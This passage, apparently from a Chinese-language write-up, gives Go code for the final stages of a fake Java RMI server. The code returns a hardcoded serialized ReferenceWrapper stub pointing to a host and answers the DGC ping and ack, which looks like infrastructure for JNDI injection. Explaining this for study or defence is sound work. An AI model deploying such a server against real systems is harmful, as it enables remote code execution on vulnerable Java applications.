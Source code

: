 返回payload，实际上可以简化

```
func doThird(conn *net.Conn) `{`
    fmt.Println("client-&gt;server:exploit")
    data := make([]byte, 1024)
    _, _ = (*conn).Read(data)
    payload := []byte`{`
        0x51, 0xac, 0xed, 0x00, 0x05, 0x77, 0x0f, 0x01, 0xc6, 0xee, 0x4f, 0x24, 0x00, 0x00, 0x01, 0x7b, 0x11, 0x5d, 0xc6,
        0xff, 0x80, 0x08, 0x73, 0x72, 0x00, 0x2f, 0x63, 0x6f, 0x6d, 0x2e, 0x73, 0x75, 0x6e, 0x2e, 0x6a, 0x6e, 0x64, 0x69,
        0x2e, 0x72, 0x6d, 0x69, 0x2e, 0x72, 0x65, 0x67, 0x69, 0x73, 0x74, 0x72, 0x79, 0x2e, 0x52, 0x65, 0x66, 0x65, 0x72,
        0x65, 0x6e, 0x63, 0x65, 0x57, 0x72, 0x61, 0x70, 0x70, 0x65, 0x72, 0x5f, 0x53, 0x74, 0x75, 0x62, 0x00, 0x00, 0x00,
        0x00, 0x00, 0x00, 0x00, 0x02, 0x02, 0x00, 0x00, 0x70, 0x78, 0x72, 0x00, 0x1a, 0x6a, 0x61, 0x76, 0x61, 0x2e, 0x72,
        0x6d, 0x69, 0x2e, 0x73, 0x65, 0x72, 0x76, 0x65, 0x72, 0x2e, 0x52, 0x65, 0x6d, 0x6f, 0x74, 0x65, 0x53, 0x74, 0x75,
        0x62, 0xe9, 0xfe, 0xdc, 0xc9, 0x8b, 0xe1, 0x65, 0x1a, 0x02, 0x00, 0x00, 0x70, 0x78, 0x72, 0x00, 0x1c, 0x6a, 0x61,
        0x76, 0x61, 0x2e, 0x72, 0x6d, 0x69, 0x2e, 0x73, 0x65, 0x72, 0x76, 0x65, 0x72, 0x2e, 0x52, 0x65, 0x6d, 0x6f, 0x74,
        0x65, 0x4f, 0x62, 0x6a, 0x65, 0x63, 0x74, 0xd3, 0x61, 0xb4, 0x91, 0x0c, 0x61, 0x33, 0x1e, 0x03, 0x00, 0x00, 0x70,
        0x78, 0x70, 0x77, 0x36, 0x00, 0x0a, 0x55, 0x6e, 0x69, 0x63, 0x61, 0x73, 0x74, 0x52, 0x65, 0x66, 0x00, 0x0d, 0x31,
        0x39, 0x32, 0x2e, 0x31, 0x36, 0x38, 0x2e, 0x32, 0x32, 0x32, 0x2e, 0x31, 0x00, 0x00, 0xf3, 0xbd, 0x23, 0x92, 0xb3,
        0xd9, 0xf7, 0xa3, 0x45, 0x9c, 0xc6, 0xee, 0x4f, 0x24, 0x00, 0x00, 0x01, 0x7b, 0x11, 0x5d, 0xc6, 0xff, 0x80, 0x01,
        0x01, 0x78,
    `}`
    _, _ = (*conn).Write(payload)
    data = make([]byte, 1024)
    _, _ = (*conn).Read(data)
    if data[0] == 0x52 `{`
        lastData := data[1:]
        for _, v := range lastData `{`
            if v != 0x00 `{`
                return
            `}`
        `}`
        doFinal(conn)
    `}`
`}`
```

最后两步的Ping和Ack，DgcAck无法确认后续内容，只对第一位进行校验

```
func doFinal(conn *net.Conn) `{`
    _, _ = (*conn).Write([]byte`{`0x53`}`)
    data := make([]byte, 1024)
    _, _ = (*conn).Read(data)
    if data[0] == 0x54 `{`
        fmt.Println("final")
    `}`
`}`
```

